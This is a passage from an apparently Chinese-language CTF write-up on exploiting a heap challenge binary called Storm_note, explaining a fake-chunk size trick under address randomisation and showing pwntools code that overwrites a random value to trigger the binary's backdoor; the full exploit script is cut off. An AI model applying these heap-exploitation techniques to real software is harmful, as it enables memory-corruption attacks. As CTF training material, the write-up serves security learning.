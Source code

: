   因为fake_chunk-5处会写入victim的地址，开启地址随机化的开头地址是0x55或0x56，所以fake_chunk的size位是0x55或0x56。

  当_int_malloc返回之后会进行如下检查。

 ![image-20211226162936052](/images/heap/image-20211226162936052.png)

  其中宏定义如下。

 ![image-20211226162941269](/images/heap/image-20211226162941269.png)

  0x55&0x2=0，绕不过检查，所以只有size为0x56时，我们才能申请到0xabcd0100-0x20处的堆块。

#### 4.后门利用

```python
add(0x48)
payload = p64(0) * 2 + p64(0) * 6
edit(2, payload)

p.sendlineafter('Choice: ','666')
p.send(p64(0)*6)
```

  申请到目标堆块后，将0Xabcd0100处的随机数改为0，触发后门。

 ![image-20211226163021383](/images/heap/image-20211226163021383.png)

 ![image-20211226163026373](/images/heap/image-20211226163026373.png)

### 完整exp

 ```python
 from pwn import *
 
 context.log_level = 'debug'
 binary = './Storm_note'
 elf = ELF(binary)
 libc = elf.libc
 local = 1
 if local:
  p = process(binary)
 else:
  p = remote('')
 
 def add(size):
 ```